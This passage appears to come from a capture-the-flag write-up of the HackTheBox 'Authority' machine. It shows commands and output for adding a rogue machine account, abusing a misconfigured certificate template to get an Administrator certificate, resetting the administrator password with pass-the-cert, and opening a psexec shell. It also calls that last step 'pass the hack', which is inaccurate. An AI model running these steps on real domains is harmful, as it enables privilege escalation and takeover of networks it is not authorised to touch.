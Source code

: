 ```
─# impacket-addcomputer -dc-ip 10.129.87.197 -computer-name <malicious_PC> -computer-pass Password123 'htb.local/svc_ldap:lDaP_1n_th3_cle4r!'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account *********$ with password Password123.
```

```
└─# certipy-ad req  -username "*********$" -p "Password123" -template CorpVPN  -dc-ip 10.129.87.197 -ca AUTHORITY-CA -upn 'Administrator@authority.htb'
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with UPN 'Administrator@authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Its time to use technique called pass the certificate. I am using the tool called pass the cert.

The tool requires the key and crt file which can be extract from the pfx

```bash
└─# certipy-ad cert -pfx administrator.pfx -nokey -out user.crt
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'user.crt'

└─# certipy-ad cert -pfx administrator.pfx -nocert -out user.key
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Writing private key to 'user.key'
```

Execute the tool with modify\_user switch, it will generate random password for the administrator user. Lets do that. :)

```bash
└─# python3 passthecert.py -action modify_user -crt user.crt -key user.key -domain authority.htb -dc-ip 10.129.87.197 -target administrator -new-pass
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully changed administrator password to: 7FuzjJKLfBYOJg1yPHHZhLt3q5svhimE
```

Its time to use most renown technique called pass the hack to gain shell as the administrator user

<pre class="language-bash"><code class="lang-bash">└─# impacket-psexec administrator:7FuzjJKLfBYOJg1yPHHZhLt3q5svhimE@10.129.87.197                                                         
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.87.197.....
[*] Found writable share ADMIN$
[*] Uploading file AJJxDidW.exe
[*] Opening SVCManager on 10.129.87.197.....
[*] Creating service hPoh on 10.129.87.197.....
[*] Starting service hPoh.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4644]
(c) 2018 Microsoft Corporation. All rights reserved.
